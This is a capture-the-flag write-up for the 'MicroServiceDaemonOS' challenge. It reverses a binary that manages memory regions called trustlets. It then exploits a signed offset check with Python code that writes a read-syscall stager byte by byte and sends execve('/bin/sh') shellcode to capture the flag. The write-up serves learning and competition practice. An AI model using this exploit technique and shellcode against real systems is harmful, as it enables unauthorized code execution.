

# MicroServiceDaemonOS

We are provided with a 64 bit binary that allows the user to create up to 10 trustlets. Each truslet has three empty memory region already mapped: two for the code of two different functions and one for storing data. 

The struct of a trustlet is so the following:

```C
struct trustlet
{
  BYTE first_function[0x4000];
  BYTE second_function[0x4000];
  BYTE data[0x4000000];
  BYTE padding[0x3ff8000];
};
```
Trustlet's memory region are used starting from lower addresses to higher addresses.



Thus, the first trustlet will use the region at 0x155504f3a000, the second the region at 0x15550cf3a000 and so on and so forth.

As you can see, the first two sections are `rwx` while the third is just `rw`. Moreover, before executing a trustlet's function, the binary changes the permission of all of the other trustlet's functions to `rx`, but not the functions of the trustlet is getting executed. This is interesting and could be exploited.

## The service

The hardest part of the challenge, in my opinion, was reversing it. It doesn't perform intuitive or useful tasks, so I spent a lot of time understanding how it works. Basically, we have two type of trustlets, type `1` and type `0`, each of which has two functions, the first is called `s` and the second is called `g`. Everytime the user creates a new trustlet, a special data structure on the stack is updated and the code of the functions `s` and `g` is copied in the first two sections. The special structure on the stack keeps track of the section's pointers of each trustlet and other information.

```C
struct trustlet_ref
{
  void* second_function_address;
  void* first_function_address;
  void* data_address;
  BYTE data[0x7ff7];
  __int64 type;
};

struct trustlets_refs
{
  BYTE count;
  BYTE padding[7];
  trustlet_ref trustlet[10];
};
```
Finally, we have to understand how these functions work:
* type `0` function `g`: it gets two value from the user: `count` and `offset`. Starting from the data section of the trustlet(third section) plus the `offset` left shifted by 12, it hashes 0x1000 bytes times `count` with a random but constant value. The 4 byte digest of every 0x1000 bytes is stored sequentially at data section plus 0x7FD8000. The entire digest is printed to the user.
* type `0` function `s`: it sets to one up to 0x3E8 byte, equal to zero, of the data of the `trustlet_ref` per time.
* type `1` function `s`: it gets an `offset` and an `input` of `size` characters. Then, it retrieves a random but again constant value, left shifted by 12, and it sums this value to the data section of the trustlet along with `offset`. Finally, it writes, at this last computed address, an hash of a random(this time not constant) value along with the `input`. The entire digest is printed to the user.
* type `1` function `g`: it xors 64 random bytes among them. The output is printed to the user.

## Vulnerability

The vulnerability I spotted and used is the signed check of `offset` in trustlet type `1`. This value can be negative and so it is possible to write in previous sections: functions code and trustlet's data section of previous(in memory) trustlets. However, this function writes in a random position between 0 and 0x7FF7000 starting from the current data section plus the `offset`.

## Exploit

We first create two trustlets: the first of type `0` and the second of type `1`

```python
addTrustlet(c, 0)
addTrustlet(c, 1)
```

the first trustlet is at 0x155504f3a000 and the second at 0x15550cf3a000. Now, we execute the `s` function of second trustlet with an `offset` which is the difference between the data sections of the two trustlets. By doing so, is just like calling this function in the data section of the previous trustlet(type `0`).

```python
startTrustletOne(c, 1, 's', 4, -134217728, 'AAAA')
```

At this point we wrote 4 bytes in a random position of the data section of the first trustlet. We would like to know which is the offset from the base address of the data section in order to know exactly where we are writing with the second trustlet. We achieve this with the function `g` of the first trustlet. 4 bytes of the first data section are hashed with values different from zero, so with the function we read the entire data section and compute the random offset.

```python
    val1 = startTrustletZero(c, 0, 'g', 0, 1)
    val2 = startTrustletZero(c, 0, 'g', 1, 1)
    if val1 != val2:
        print 'Unlucky bro!'
        exit()
    val = startTrustletZero(c, 0, 'g', 2, 32726)

    # Find the random index
    random = 2
    for i in range(0, len(val), 4):
        if val[i : i + 4] != val1:
            break
        random += 1
    print 'Random index is: ' + random
```

We know where the second trustlet writes random stuff. The best idea I had was to write a shellcode in the second function of the second trustlet. Why this function? Because the functions of the first trustlet in not writable and the first function of the second trustlet is the one that writes random stuff, so in use. Given that are random values, we can't write a long shellcode. There are 2 register which contains useful data: `rax` contains the address of the function is getting executed and `rdx` contains 0x40. The shortes shellcode I figured out is the following:

```assembly
xor edi, edi
mov rsi, rax
xor eax, eax
syscall
```

which performs a read in the function that is getting executed. Thus, the next step is to write the shellcode in the second function of the second trustlet, generating randomly one byte at a time.

```python
    offset = 0x4000 + (random << 12)

    # Writing in second function a shellcode randomly x)
    instructions = ['xor edi, edi', 'mov rsi, rax']
    print 'Instructions to write: ' + str(instructions)
    finished = False
    while not finished:
        rand = startTrustletOne(c, 1, 's', 4, -offset, 'AAAA')
        if len(rand) > 0:
            for inst in instructions:
                if rand[0] == asm(inst)[0]:
                    print 'Writing ' + str(inst) + '...'
                    asm_instr = asm(inst)
                    offset -= 1
                    j = 1
                    while j < len(asm_instr):
                        rand = startTrustletOne(c, 1, 's', 4, -offset, 'AAAA')
                        if len(rand) > 0 and rand[0] == asm_instr[j]:
                            offset -= 1
                            j += 1
                    print 'Done'
                    if inst == 'mov rsi, rax':
                        instructions.remove('mov rsi, rax')
                        print 'Appended: xor eax, eax'
                        instructions.append('xor eax, eax')
                    elif inst == 'xor edi, edi':
                        instructions.remove('xor edi, edi')
                    elif inst == 'xor eax, eax':
                        instructions.remove('xor eax, eax')
                    elif inst == 'syscall':
                        print 'Appended: syscall'
                        finished = True
                    if len(instructions) == 0:
                        instructions.append('syscall')
                    print 'Instructions left: ' + str(instructions)
```

And finally, the last step, is calling the second function which performs the read we just created. What to write? The shellcode of execve("/bin/sh", NULL, NULL). Moreover, we have to insert 0xb random characters before the shellcode because the next instructions is 0xb bytes after the address of the read.

```python
    startTrustletOne(c, 1, 'g') 
    c.sendline('\x90' * 0xb + asm(shellcraft.amd64.linux.sh()))
    c.sendline('cat flag')
    c.interactive()
```

## Flag

`CTF{TZ-1n_us3rspac3-15-m3ss-d0nt-y0u-th1nk_s0?}`